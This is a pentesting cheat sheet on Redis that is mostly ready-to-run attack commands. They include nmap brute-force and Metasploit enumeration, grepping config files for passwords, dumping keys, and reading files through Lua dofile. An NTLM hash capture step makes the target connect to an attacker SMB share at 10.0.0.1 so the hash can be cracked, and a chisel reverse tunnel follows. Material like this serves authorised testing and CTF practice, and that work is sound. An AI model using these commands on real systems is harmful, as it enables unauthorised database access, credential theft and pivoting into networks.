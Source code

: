 ```yaml
---
title: Redis Pentesting
description: Redis is the In-Memory Database. A default port is 6379.
tags:
    - Database
refs:
date: 2023-02-05
draft: false
---
```


## Enumeration

```sh
nmap --script redis-info -p 6379 <target-ip>
nmap --script redis-brute -p 6379 <target-ip>

msf> use auxiliary/scanner/redis/redis_server
```

### Check Config File

If we have access to target system, find the configuration file then we may be able to get passwords.

```sh
find / -name "redis.conf" 2>/dev/null
grep -i pass /path/to/redis.conf
```

If we get the line with password written as below,

```sh
requirepass "password"
```

We can set the password in a redis client.

```sh
> auth "password"
```


<br />

## Connect

```sh
redis-cli -h <target-ip> -p 6379

# with password
redis-cli -h <target-ip> -p 6379 -a password
```

After connecting and execute the first arbitrary command, we may got the following output.

```bash
NOAUTH Authentication required.
```

If so, we need to authenticate to communicate with the redis server.  

```bash
> auth <password>
# or
> auth default <password>
# or
> auth <username> <password>
```

<br />

## Commands

```sh
# Check credentials
> auth <username> <password>
> auth default <password>

# Set a password temporary until the service restarts.
> config set requirepass <password>

# Information on the Redis server
> info
> info keyspace

# List all
> config get *

# List all databases
> config get databases

# Select the database ('select <index>')
> select 0
> select 1
> select 12

# Read files and directories using Lua scripts
> eval "dofile('C:\\\\Users\\\\Administrator\\\\Desktop\\\\user.txt')" 0
> eval "dofile('C:\\\\Users\\\\<username>\\\\Desktop\\\\user.txt')" 0
```

### Get a Key Value

First find all keys.

```sh
> keys *
```

Before getting key values, we need to determine the type of key value by “type” command.

```sh
# Get the type of value
> type <key_name>
```

When we get the type, we can get the value of the key as below.

```bash
# type: string
> get <key_name>

# type: hash
> hget <key_name>
> hmget <key_name>
> hgetall <key_name>

# type: lists
> lrange <key_name> <start> <stop>
# e.g.
> lrange "userlist" 0 0
> lrange "userlist" 0 5

# type: sets
> smembers <key_name>

# type: sorted sets
> zrangebyscore <key_name> <min> <max>

# type: stream
> xread count <count> streams <key_name> <id>
```

<br />

## NTLM Hash Disclosure

In local machine, start SMB server.

```bash
mkdir share
sudo impacket-smbserver share ./share/ -smb2support
```

Now execute the following command in Redis client.

```bash
> eval "dofile('//10.0.0.1/share')" 0
```

We might get a NTLM hash in the incoming connection to the SMB server. We can see the SMB server logs in terminal.  
If the NTLM hash found, crack it.

<br />

## Port Forwarding Redis Server to Local Machine

In local machine,

```sh
chisel server -p 9001 --reverse
```

In target machine,

```sh
./chisel client <local-ip>:9001 R:6379:127.0.0.1:6379
```